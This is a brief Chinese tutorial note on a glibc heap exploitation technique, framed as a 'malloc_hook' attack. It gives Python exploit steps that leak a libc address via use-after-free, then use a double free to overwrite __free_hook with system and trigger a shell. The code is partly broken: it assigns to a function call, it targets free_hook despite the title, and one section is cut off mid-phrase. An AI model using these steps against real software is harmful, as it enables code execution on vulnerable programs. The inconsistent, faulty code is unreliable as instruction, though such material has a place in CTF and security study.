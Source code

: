 ## 简单介绍
我们这一类漏洞类似于我们的 free-hook 攻击，本质上都是因为我们的 use after free 后派生 2 出来的漏洞。

这里，我们更加方便的一点在于，我们的 malloc_hook 函数一定是在我们的 main_arena 附近的，也就是说，只要我们能够找到一个合适的位置，我们的 libc 地址相对而言是比较好求的



## 用途
通过我们的 malloc

## 流程
第一步：泄露 libc，这一步，我们依然可以按照我们的 use after free 漏洞来执行。
```python
for i in range(10):
	create(i,0x100,b'a')
for i in range(8):
	delete(i)
show (7)
libc_base()=l64()-0x70-libc.sym['__malloc_hook']

system,binsh=get_sb()
free_hook=libc_base+libc.sym['__free_hook']
```


第二步：利用我们的 double_free 漏洞来修改我们的 `hook` 函数

```python
create(10,0x20,b'a')
create(11,0x20,b'a')
delete(11)
delete(10)
delete(11)#double free

create(12,0x10,p64(free_hook))
create(13,0x20,b'a')# 垃圾数据
create(14,0x20,b'/bin/sh\x00')# 本质上是垃圾数据
create(15,0x20,p64(system))
delete(14)
```